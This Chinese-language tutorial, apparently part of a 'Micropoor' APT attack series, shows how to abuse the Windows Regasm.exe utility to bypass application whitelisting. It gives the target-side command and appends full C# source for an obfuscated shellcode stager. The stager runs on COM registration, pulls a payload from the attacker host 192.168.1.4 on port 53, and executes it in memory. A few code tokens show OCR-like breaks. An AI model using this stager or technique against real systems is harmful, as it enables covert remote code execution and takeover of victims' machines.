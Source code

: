 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**Regasm简介：**

Regasm为程序集注册工具，读取程序集中的元数据，并将所需的项添加到注册表中。RegAsm.exe是Microsoft Corporation开发的合法文件进程。它与Microsoft.NET Assembly Registration Utility相关联。

**说明：**Regasm.exe所在路径没有被系统添加PATH环境变量中，因此，REGASM命令无法识别。

具体参考微软官方文档：
https://docs.microsoft.com/en-us/dotnet/framework/tools/regasm-exe-assembly-registration-tool

基于白名单Regasm.exe配置payload：

Windows 7 默认位置：
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe`

**攻击机：**192.168.1.4 Debian
**靶机：**192.168.1.3 Windows 7

**配置攻击机msf：**
![](media/314cbd2bd9ab4f06f2323a2cd8c0d624.jpg)

**靶机执行：**
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U Micropoor.dll`
![](media/868577dc3b5b517840363527f5b5ad2b.jpg)


## 附录：Micropoor.cs
**注：x86 payload**

```c#
using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.EnterpriseServices; using System.Windows.Forms;

namespace HYlDKsYF

{

public class kxKhdVzWQXolmmF : ServicedComponent { 

public kxKhdVzWQXolmmF() { Console.WriteLine("doge"); } 

[ComRegisterFunction]

public static void RegisterClass ( string pNNHrTZzW )

{

ZApOAKJKY.QYJOTklTwn();

} 

[ComUnregisterFunction]

public static void UnRegisterClass ( string pNNHrTZzW )

{

ZApOAKJKY.QYJOTklTwn();

}

} 

public class ZApOAKJKY

{ [DllImport("kernel32")] private static extern UInt32 HeapCreate(UInt32 FJyyNB, UInt32 fwtsYaiizj, UInt32 dHJhaXQiaqW);

[DllImport("kernel32")] private static extern UInt32 HeapAlloc(UInt32 bqtaDNfVCzVox, UInt32 hjDFdZuT, UInt32 JAVAYBFdojxsgo);

[DllImport("kernel32")] private static extern UInt32 RtlMoveMemory(UInt32 AQdEyOhn, byte[] wknmfaRmoElGo, UInt32 yRXPRezIkcorSOo);

[DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 uQgiOlrrBaR, UInt32 BxkWKqEKnp, UInt32 lelfRubuprxr, IntPtr qPzVKjdiF, UInt32 kNXJcS, ref UInt32 atiLJcRPnhfyGvp);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr XSjyzoKzGmuIOcD, UInt32 VumUGj);static byte[] HMSjEXjuIzkkmo(string aCWWUttzmy, int iJGvqiEDGLhjr) {

IPEndPoint YUXVAnzAurxH = new IPEndPoint(IPAddress.Parse(aCWWUttzmy), iJGvqiEDGLhjr);

Socket MXCEuiuRIWgOYze = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { MXCEuiuRIWgOYze.Connect(YUXVAnzAurxH); }

catch { return null;}

byte[] Bjpvhc = new byte[4];

MXCEuiuRIWgOYze.Receive(Bjpvhc, 4, 0);

int IETFBI = BitConverter.ToInt32(Bjpvhc, 0);

byte[] ZKSAAFwxgSDnTW = new byte[IETFBI + 5];

int JFPJLlk = 0;

while (JFPJLlk < IETFBI)

{ JFPJLlk += MXCEuiuRIWgOYze.Receive(ZKSAAFwxgSDnTW, JFPJLlk + 5, (IETFBI ‐ JFPJLlk) < 4096 ? (IETFBI ‐ JFPJLlk) : 4096, 0);}

byte[] nXRztzNVwPavq = BitConverter.GetBytes((int)MXCEuiuRIWgOYze.Handle);

Array.Copy(nXRztzNVwPavq, 0, ZKSAAFwxgSDnTW, 1, 4); ZKSAAFwxgSDnTW[0] = 0xBF;

return ZKSAAFwxgSDnTW;}

static void TOdKEwPYRUgJly(byte[] KNCtlJWAmlqJ) {

if (KNCtlJWAmlqJ != null) {

UInt32 uuKxFZFwog = HeapCreate(0x00040000, (UInt32)KNCtlJWAmlqJ.Lengt h, 0);

UInt32 sDPjIMhJIOAlwn = HeapAlloc(uuKxFZFwog, 0x00000008, (UInt32)KNCtlJWAmlqJ.Length);

RtlMoveMemory(sDPjIMhJIOAlwn, KNCtlJWAmlqJ, (UInt32)KNCtlJWAmlqJ.Length);

UInt32 ijifOEfllRl = 0;

IntPtr ihXuoEirmz = CreateThread(0, 0, sDPjIMhJIOAlwn, IntPtr.Zero, 0, ref ijifOEfllRl);

WaitForSingleObject(ihXuoEirmz, 0xFFFFFFFF);}} 

public static void QYJOTklTwn() {

byte[] ZKSAAFwxgSDnTW = null; ZKSAAFwxgSDnTW = HMSjEXjuIzkkmo("192.168.1.4", 53);

TOdKEwPYRUgJly(ZKSAAFwxgSDnTW);

} } }
```
>   Micropoor
